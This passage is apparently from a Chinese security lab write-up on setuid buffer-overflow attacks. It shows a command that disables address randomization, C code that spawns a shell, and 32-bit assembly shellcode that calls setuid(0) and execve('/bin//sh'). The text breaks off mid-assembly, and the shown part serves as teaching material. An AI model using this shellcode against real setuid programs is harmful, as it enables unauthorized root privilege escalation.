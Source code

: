 # 缓冲区溢出攻击之 Buffer Overflow Setuid

## 一、实验准备

### 1. 关闭地址随机化

Address Space Randomization. Ubuntu and several other Linux-based systems uses address space randomization to randomize the starting address of heap and stack. This makes guessing the exact addresses difficult; **<font color="red">guessing addresses is one of the critical steps of buffer-overflow attacks</font>**. This feature can be disabled using the following command:

```shell{.line-numbers}
$ sudo sysctl -w kernel.randomize_va_space=0
```

### 2.编写 shellcode

#### 2.1 shellcode 的 c 代码形式

```c{.line-numbers}
#include <stdio.h>

int main() {
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```

#### 2.2 32-bit 形式的 shellcode

```armasm{.line-numbers}
;文件名：sh32.s
;调用 setuid(0) 函数
xorl %eax, %eax
xorl %ebx, %ebx
movb $0xd5, %al
int $0x80

;Store the command on stack
xorl %eax, %eax
pushl %eax
pushl $0x68732f2f
pushl $0x6e69622f
;ebx --> "/bin//sh": execve()’s 1st argument
movl %esp, %ebx

;Construct the argument array argv[]
;argv[1] = 0
pushl %eax
;argv[0] --> "/bin//sh" 
pushl %ebx
;%ecx --> argv[]: execve()’s 2nd argument
movl %esp, %ecx

;For environment variable
;%edx = 0: execve()’s 3rd argument
xorl %edx, %edx

;Invoke execve()
xorl %eax, %eax
;execve()’s system call number
movb $0x0b, %al
```